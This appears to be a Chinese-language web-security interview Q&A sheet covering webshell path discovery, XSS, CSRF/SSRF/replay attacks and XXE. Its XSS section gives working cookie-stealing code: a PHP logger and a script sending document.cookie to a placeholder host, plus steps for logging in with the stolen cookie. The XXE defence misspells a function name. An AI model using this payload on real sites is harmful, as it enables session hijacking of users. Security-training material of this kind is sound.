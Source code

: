 #### ✸	注入写入webshell需要绝对路径，一般怎么去找绝对路径？
（1）错误的url get参数，可能返回网站路径<br>
（2）搜索引擎获取：语法搜索页面报错内容，可能获取到网站路径<br>
Site:test.com warning<br>
Site:test.com "fatal error"<br>
（3）文件读取漏洞，读取配置文件获得<br>
（4）phpinfo信息中的DOCUMENT_ROOT参数获取<br>
（5）phpmyadmin爆路径：/phpmyadmin/themes/darkblue_orange/layout.inc.php<br>

#### ✸	简要说明XSS漏洞分类及其危害
分类：反射性、存储型、DOM型<br>
危害：<br>
（1）窃取用户cookie，键盘记录<br>
（2）XSS配合其他漏洞getshell<br>
（3）刷流量，执行弹窗广告，强制发送电子邮件<br>
（4）传播蠕虫病毒<br>
防御：
（1）基于特征的的防御（关键字匹配，特征匹配）：对所有提交信息进行规则匹配检查；<br>
（2）基于代码修改的防御。<br>

#### ✸	xss 如何盗取 cookie ？ 
攻击者代码： <br>
```php
<?php $cookie=$_GET['cookie']; 
$time=date('Y-m-d g:i:s'); 
$referer=getenv('HTTP_REFERER'); 
$cookietxt=fopen('cookie.txt','a'); 
fwrite($cookietxt,"time:".$time." cookie:".$cookie." referer:".$referer.""); 
//注意双引号，容易出错 
fclose($cookietxt); 
?> 
```
脚本端： <br>
```javascript
<script> 
document.write('<img 
src="http://ip/cookie.php?cookie='+document.cookie+'" width=0 
height=0 border=0 />'); 
</script> 
```
获取到 cookie 后，用 firebug 找到 cookie ，新建cookie加入 cookie ，用referer 来提交，无需输入帐号密码直接登录进去！ <br>

#### ✸	CSRF、SSRF和重放攻击有什么区别？
CSRF是跨站请求伪造攻击，由客户端发起<br>
SSRF是服务器端请求伪造，由服务器发起<br>
重放攻击是将截获的数据包进行重放，达到身份认证等目的<br>
#### ✸	XXE漏洞
原理：XXE漏洞也叫XML外部实体注入。由于没有禁止外部实体的加载,攻击者可以加载恶意外部文件，而应用程序解析输入的XML数据时,解析了攻击者伪造的外部实体导致产生XML漏洞。<br>
防御方式<br>
1.禁止使用外部实体,例如ibxml_disable_entry_loader(true)<br>
2.过滤用户提交的XML数据,防止出现非法内容<br>
